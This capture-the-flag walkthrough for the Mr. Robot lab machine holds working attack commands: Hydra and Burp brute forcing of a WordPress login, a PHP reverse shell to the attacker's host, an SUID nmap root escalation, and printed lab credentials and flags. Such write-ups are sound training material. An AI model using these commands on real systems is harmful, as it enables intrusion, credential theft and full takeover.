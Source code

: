 ```
sudo netdiscover -r 192.168.0.1/24
```
Result:

Currently scanning: Finished!   |   Screen View: Unique Hosts                                         

4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                                                                                                          
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.0.1     52:54:00:12:35:00      1      60  Unknown vendor                                                                                                                                                                         
 192.168.0.2     52:54:00:12:35:00      1      60  Unknown vendor                                                                                                                                                                         
 192.168.0.3     08:00:27:12:71:25      1      60  PCS Systemtechnik GmbH                                                                                                                                                                 
==192.168.0.6     08:00:27:3e:b3:75      1      60  PCS Systemtechnik GmbH ==

Let's perform a NMAP aggressive scan,
```
 sudo nmap -A 192.168.0.6 
```

Result:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 09:53 EDT
Nmap scan report for 192.168.0.6
Host is up (0.00043s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
==443/tcp open   ssl/http Apache httpd==
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:3E:B3:75 (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 3.10 - 4.11 (98%), Linux 3.2 - 4.9 (94%), Linux 3.2 - 3.8 (93%), Linux 3.18 (92%), Linux 3.13 (91%), Linux 3.13 or 4.2 (91%), Linux 3.16 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Linux 2.6.26 - 2.6.35 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.43 ms 192.168.0.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.80 seconds

It looks like web page is running in apche server on 'port number 443'.
Lets see the web page on  the browser.
Lets scan the web page,
There are many tools that are avaliable to perform the scan,here i am going to use is ==Dirb==.
**Dirb**:
Dirb is an online directory scanner that searches web servers for hidden files, directories, and pages. 
Lets start the Scan:
```
sudo dirb http://192.168.0.6/
```
It will scan the whole dirtecso it take some time.
 
<img src="./Screenshot 2024-08-11 195801.png"></img>

<img src="./img/Screenshot 2024-08-11 195801.png"></img>

once its finished its scan. There is a directory in the name of **robot.txt**
check that in the browser.
like this:
```
http://192.168.0.6/robots.txt
```
this directory has some login creditionals with username word list and the directory which has the first flag<img src="./img/Screenshot 2024-08-11 194556 1.png"></img>
Download the fsocity.dic document. Because it contains the username list.
```
http://192.168.0.6/fsocity.dic
```
first flag
<img src="./img/Screenshot 2024-08-11 194613.png"></img>
```
key-1-of-3.text
073403c8a58a1f80d943455fb30724b9
```
 According to the scan we have Word press login page.
 Lets look into that.
 My first try to login creditionals is 
 <img src="./img/Screenshot 2024-08-11 195246.png"></img>
 ```
 username:admin
 password: admin
```
But it is wrong.
Lets bruteforce it using the wordlist we got "fsociety.dic" by using ==Burpsuite==
Now open this site in Burpsuite browser.
```
http://192.168.0.6/wp-login.php
```

Follow the steps to perform the Bruteforce attack for the username,

1.Go to **Proxy**
2.Enter some sample login creditonals
```
username:test
password:test
```
3.turn on the interceptor and the try login in
4.now we catched the entering packets.And it will look like this.

POST /wp-login.php HTTP/1.1

Host: 192.168.0.6

Content-Length: 98

Cache-Control: max-age=0

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

Origin: http://192.168.0.6

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.0.6/wp-login.php

Accept-Encoding: gzip, deflate, br

Cookie: wordpress_test_cookie=WP+Cookie+check

Connection: keep-alive



**log=test&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.0.6%2Fwp-admin%2F&testcookie=1**

5.Now select from log to pwd=test then click it to send 'to the intruder'
6.now select the test from the log field and add it as a variable.
7.Go to payloads settings select the load field.
8.Add the username list which we got it as "fsocity.dic"
9.start the attack
<img src="./img/Screenshot 2024-08-11 202802.png"></img>
<img src="./img/Screenshot 2024-08-11 202822.png"></img>

Now we got length for username
But we similar length for all username except the the **Elliot**
Now we found the username .

Lets find the password for the elliot username
first we have to sort the fsocity.dic file by using follwing command.
```
sort /home/kali/Downloads/fosocity.dic| uniq >elliotpw.txt
```
now we have unique words in this file compared to fsocity.dic
Lets perform brute force attack for password
here i will use the tool called **Hydra**
```
sudo hydra -vV -l elliot -P elliot_password.txt 192.168.0.6 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is Incorect'

```
Result:
<img src="./img/Pasted image 20240811211822.png"></img>
 we found 16 vaild password
 Now we have perform **Wpscan** to get correct combination.
 ```
 wpscan --url 192.168.0.6 --passwords elliot_password.txt --usernames Elliot  
```
And we got it
<img src="./img/Pasted image 20240811212115.png"></img>
Now the combination are:
```
username:Elliot
password:ER28-0652
```
```
http://192.168.0.6/wp-login.php
http://192.168.0.6/key-1-of-3.txt
192.168.0.6/fsocity.dic
```
Now login into Wordpress using creditionals
Let now open a reverse shell.
Go to Apperance->Editor-> 404 tempelate
paste the below reverse php Script.
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/"local machine ip address"/443 0>&1'");
?>
```
Update the file
Now setup the listener using netcat
```
sudo nc -lvp 443
```
<img src="./img/Screenshot 2024-08-24 121743 1.png"></img>
now
search a non existing directory that gives you 404 error.
```
http://192.168.0.6/ddxf
```
Successfully got reverse shell in our terminal
Lets look for other details
Just perform some basic cmds like
```
ls
cat wp-config.php
```
We can see the configuration of the database for the mr.robot we got many passwords and user
```
ls -la /home
```
We got a robot directory
look into that
```
ls -la /home/robot
```
we got a key file and  password.raw.md5 file and the key file only accessed by robot user, 
cat password file.
```
cat /home/robot/password.raw-md5
```

we got <img src="./img/Screenshot 2024-08-24 122456.png"></img>a hash string
Put that hash string into the https://crackstation.net/
<img src="./img/Screenshot 2024-08-24 122540.png"></img>
we got a robot user password
```
abcdefghijklmnopqrstuvwxyz
```

Now if we put "su robot" it will throw a error because it needs pty terminal
import that terminal.
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```
su robot
password: abcdefghijklmnopqrstuvwxyz
```
now open key file
```
cat /home/robot/key-2-of-3.txt
```
```
key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
We got second key successfully.
Get into the root
```
find / -perm -4000 -type f 2>/tmp/2
```
searched got a command to get the root shell from gtfobins

(https://gtfobins.github.io/gtfobins/nmap/#suid%5C)
<img src="./img/Screenshot 2024-08-24 125339.png"></img>
Look for nmap
```
nmap --interactive
```

```
!sh
```
<img src="./img/Screenshot 2024-08-24 130348.png"></img>
we got the root
change into root directory
```
cd /root
ls
cat key-3-of-3.txt
```
<img src="./img/Screenshot 2024-08-24 130404.png"></img>
<img src="./img/Screenshot 2024-08-24 130828.png"></img>```
key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

```

All three keys are found.